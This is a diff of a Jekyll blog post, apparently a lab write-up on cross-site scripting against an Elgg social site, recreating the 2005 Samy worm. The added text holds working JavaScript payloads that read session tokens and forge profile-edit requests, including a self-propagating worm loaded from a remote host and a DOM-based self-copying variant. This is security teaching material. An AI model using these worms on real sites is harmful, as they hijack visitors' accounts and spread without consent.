

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-08-04-xss.md, in a window 1280 px wide and 1400 px high, scrolled down 3194 px. Shown: the top 1396 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3914 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update post

````diff
--- a/_posts/2023-08-04-xss.md
+++ b/_posts/2023-08-04-xss.md
@@ -116,13 +116,142 @@ It is important that the text field where the code is placed is free from any fo
 
 ### Modifying the Victim’s Profile
 
-The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. Specifically,
-modify the victim’s "About Me" field. We will write an XSS worm to complete the task. This worm does
-not self-propagate; in task 6, we will make it self-propagating.
-Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests
-directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should
-first find out how a legitimate user edits or modifies his/her profile in Elgg. More specifically, we need
-to figure out how the HTTP POST request is constructed to modify a user’s profile. We will use Firefox’s
-HTTP inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can
-write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that
-aids in completing the task.
+In 2005, Samy also performned and XSS attack on Myspace that adds modifies a user's profile when the user visits his page. The purpose of this task is to try and replicate what Samy did.
+
+For anyone's page that visits Samy's page to be automatically modified, the JavaScript code has to forge the  HTTP requests directly from the victim’s browser. Thus it is important to find out how the website crafts profie edit requests so we would know what needs to be sent to the server for the attack to be succesful.
+
+To accomplish this, I embed the following code in my profile page:
+
+```javascript
+<script type="text/javascript">
+    window.onload = function(){
+    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
+    //and Security Token __elgg_token
+    var userName="&name="+elgg.session.user.name;
+    var guid="&guid="+elgg.session.user.guid;
+    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
+    var token="&__elgg_token="+elgg.security.token.__elgg_token;
+
+    //Construct the content of your url.
+    var content=token + ts + "&description=Samy is my hero" +
+    "&accesslevel[description]=2" + guid;
+    var samyGuid=59;
+    var sendurl="http://www.seed-server.com/action/profile/edit";
+    if(elgg.session.user.guid!=samyGuid){
+        //Create and send Ajax request to modify profile
+        var Ajax=null;
+        Ajax=new XMLHttpRequest();
+        Ajax.open("POST", sendurl, true);
+        Ajax.setRequestHeader("Content-Type",
+        "application/x-www-form-urlencoded");
+        Ajax.send(content);
+        }
+    }
+</script>
+```
+
+***image***
+
+After saving the changes made to my profile page, once anyone view Samy's profile, the script would run and edit their profile page.
+
+***image***
+
+***image***
+
+It is important that an `if statement` is present in the code to make sure that the code does not run on samy's page. If the code runs on Samy's page, the code will overwrite the malicious javascript code initially saved on Samy's profile page as seen below.
+
+***image***
+
+<br>
+
+### Writing a Self-Propagating XSS Worm
+
+In 2005, the samy worm on Myspace not only modified users profiles when they viewed his profile, but the worm copied itself to their profiles, further infecting others users who view the newly infected profiles. This is a self-propagating cross-site scripting worm. The purpose of this task is to try and replicate what Samy did.
+
+**Link Approach**: To accomplish self-propagation via link approach, I save the below javascript code in a remote server
+
+```javascript
+window.onload = function(){
+//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
+//and Security Token __elgg_token
+var userName="&name="+elgg.session.user.name;
+var guid="&guid="+elgg.session.user.guid;
+var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
+var token="&__elgg_token="+elgg.security.token.__elgg_token;
+
+//Construct the content of your url.
+var wormCode = encodeURIComponent("<script type=\"text/javascript\" src=\"http://10.9.0.1:5555/xss_worm.js\"></script>");
+var content = token + ts + "&description=Samy is my hero" + wormCode +
+"&accesslevel[description]=2" + guid;
+var samyGuid=59;
+var sendurl="http://www.seed-server.com/action/profile/edit";
+if(elgg.session.user.guid!=samyGuid) {
+    //Create and send Ajax request to modify profile
+    var Ajax=null;
+    Ajax=new XMLHttpRequest();
+    Ajax.open("POST", sendurl, true);
+    Ajax.setRequestHeader("Content-Type",
+    "application/x-www-form-urlencoded");
+    Ajax.send(content);
+    }
+}
+```
+
+then I embed the the following code in my profile page: `<script type="text/javascript" src="http://10.9.0.1:5555/xss_worm.js"></script>`
+
+***image***
+
+After saving the changes made to my profile page, once anyone view Samy's profile, the script would run, edit their profile page and propagate to any user that views the infected page.
+
+***image***
+
+***image***
+
+***image***
+
+
+**DOM Approach**: If the entire JavaScript worm is embedded in the infected profile, the worm can use the DOM APIs to retrieve a copy of itself from the web page and replicate. To accomplish self-propagation via DOM approach, I save the below javascript code in my profile page
+
+```javascript
+<script type="text/javascript" id="worm">
+    window.onload = function(){
+    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
+    //and Security Token __elgg_token
+    var userName="&name="+elgg.session.user.name;
+    var guid="&guid="+elgg.session.user.guid;
+    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
+    var token="&__elgg_token="+elgg.security.token.__elgg_token;
+
+    // Construct contents for DOM
+    var headerTag = "<script type=\"text/javascript\" id=\"worm\">";
+    var jsCode = document.getElementById("worm").innerHTML;
+    var tailTag = "</" + "script>";
+    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
+
+    // Construct the content of your url.
+    var desc = "&description=Samy is my hero" + wormCode + "&accesslevel[description]=2";
+    var content = token + ts + desc + guid;
+    var samyGuid=59;
+    var sendurl="http://www.seed-server.com/action/profile/edit";
+    if(elgg.session.user.guid!=samyGuid){
+        //Create and send Ajax request to modify profile
+        var Ajax=null;
+        Ajax=new XMLHttpRequest();
+        Ajax.open("POST", sendurl, true);
+        Ajax.setRequestHeader("Content-Type",
+        "application/x-www-form-urlencoded");
+        Ajax.send(content);
+        }
+    }
+</script>
+```
+
+***image***
+
+After saving the changes made to my profile page, once anyone view Samy's profile, the script would run, edit their profile page and propagate to any user that views the infected page.
+
+***image***
+
+***image***
+
+<br>
````
